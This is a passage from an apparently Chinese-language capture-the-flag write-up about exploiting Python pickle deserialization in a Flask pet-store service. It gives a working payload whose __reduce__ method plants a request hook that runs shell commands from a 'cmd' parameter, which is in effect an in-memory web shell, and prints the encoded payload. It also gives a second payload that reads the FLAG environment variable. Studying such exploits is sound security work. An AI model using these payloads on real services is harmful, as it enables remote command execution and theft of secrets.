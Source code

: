 ```
import pickle
import base64
import uuid
import os

class Pet:
    def __init__(self, name, species) -> None:
        self.name = name
        self.species = species
        self.uuid = uuid.uuid4()

    def __repr__(self) -> str:
        return f"Pet(name={self.name}, species={self.species}, uuid={self.uuid})"

    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('cmd')).read())",))

p = Pet("a", "b")
opcode = pickle.dumps(p)
opcode_encode = base64.b64encode(opcode).decode()
print(opcode_encode)

#gASVwgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIymX19pbXBvcnRfXygic3lzIikubW9kdWxlc1snX19tYWluX18nXS5fX2RpY3RfX1snYXBwJ10uYmVmb3JlX3JlcXVlc3RfZnVuY3Muc2V0ZGVmYXVsdChOb25lLCBbXSkuYXBwZW5kKGxhbWJkYSA6X19pbXBvcnRfXygnb3MnKS5wb3BlbihyZXF1ZXN0LmFyZ3MuZ2V0KCdjbWQnKSkucmVhZCgpKZSFlFKULg==
```

然后将字符串进行import，即可在服务上产生一个新的监听，对cmd参数的命令执行。

![](./images/image-31.png)

还有一个更简单的解法，直接把flag存入store里

```
import base64
import pickle

class Test:
    def __reduce__(self):
        return (exec, ("import os; store.create_pet(os.getenv('FLAG'), 'flag');",))

if __name__ == "__main__":
    print(base64.b64encode(pickle.dumps(Test())).decode("utf-8"))
```
